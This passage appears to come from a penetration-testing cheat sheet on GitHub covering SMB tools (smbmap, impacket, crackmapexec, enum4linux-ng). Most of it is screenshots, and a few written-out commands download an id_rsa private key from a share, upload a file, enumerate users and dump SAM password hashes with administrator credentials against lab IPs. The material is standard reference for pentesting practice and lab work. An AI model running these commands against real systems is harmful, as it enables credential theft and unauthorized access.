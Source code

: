 
<img width="668" alt="Screen Shot 2022-08-10 at 8 51 10 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/535f4bc7-878e-4ca1-ba02-60f3bc10a7de">

![Pasted image 20230126144025](https://github.com/dbissell6/Shadow_Stone/assets/50979196/39b9c928-7d60-40c2-a0a4-b3837965c85e)

![Pasted image 20220805222933](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a8c5dcba-b9fb-47f1-9f9c-0765e8cf3a9c)

### Download a file
```
smbmap -H 10.129.204.175 --download "GGJ\id_rsa"
```
### Upload a file
```
smbmap -H 10.129.204.175 --upload hax "GGJ\hax"
```
### search and download by filetype
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/845529a5-84ad-419f-ab67-be93a251dd28)


### with proxychains
<img width="791" alt="Screen Shot 2022-09-08 at 8 28 18 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/bb9e120a-743c-4812-8ab9-dafa149e3842">



## impacket
![Pasted image 20230420150526](https://github.com/dbissell6/Shadow_Stone/assets/50979196/b863d7e2-d060-47ad-9441-2122a2fa08f9)

## crackmapexec

### enumerate users

```
crackmapexec smb 172.16.5.5 --users
```
![Pasted image 20230420150912](https://github.com/dbissell6/Shadow_Stone/assets/50979196/22b35886-e8b2-42d6-b0af-a5493bc0bb3e)

<img width="691" alt="Screen Shot 2022-08-10 at 8 58 01 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/fe7fd2a6-afcb-41c9-98a5-9a1e6d66c838">

Extract Hashes from SAM Database with admin creds

```
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

## enum4linux-ng
![Pasted image 20230420151252](https://github.com/dbissell6/Shadow_Stone/assets/50979196/746a774a-5d39-4f59-b67e-4227fb64e648)

## EternalBlue

